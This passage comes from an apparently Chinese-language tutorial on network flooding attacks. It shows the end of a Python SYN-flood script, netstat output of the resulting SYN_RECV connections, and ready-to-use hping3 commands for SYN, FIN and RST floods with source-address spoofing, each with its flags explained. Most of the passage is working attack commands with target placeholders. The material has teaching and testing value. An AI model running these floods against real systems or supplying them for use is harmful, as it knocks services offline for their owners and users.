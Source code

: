 ```python
        sleep(1)

attack(target, port)
```

这样一般的`linux`服务器`TCP`半开连接数最大为`256`，所以很容易就会被拒绝服务，这时候用`netstat`查看，会发现有大量的`SYN-RECV`状态的连接:

```shell
tcp        0      0 192.168.1.106:80        192.168.1.105:63373     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:32889     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:11923     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:14623     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:47957     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:40096     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:16169     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:36751     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:42879     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:59742     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:64406     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:3874      SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:20588     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:24316     SYN_RECV    -
tcp        0      0 192.168.1.106:80        192.168.1.105:27737     SYN_RECV    -
```

##### 使用工具hping3

也可以用hping3来实现，`-S`参数可以设置SYN标记，`--flood`参数可以产生泛洪，`--rand-source`可以设置源IP随机，`-c`指定数据包的总量，`-d`指定数据的大小。

```shell
hping3 -S --flood -V -p TARGET_PORT TARGET_SITE
hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE
–-flood: sent packets as fast as possible
–-rand-source: random source address
-c –count: packet count
-d –data: data size
-S –syn: set SYN flag
-w –win: winsize (default 64)
-p –destport: destination port (default 0) 
```

#### TCP FIN Flood

用hping3来实现，`-F`可设置FIN标记。

```shell
hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP
-F stands for setting FIN flag
```

#### TCP RST Flood

用hping3来实现，`-R`可设置RST标记。

```shell
hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
-R stands for setting RST flag
```
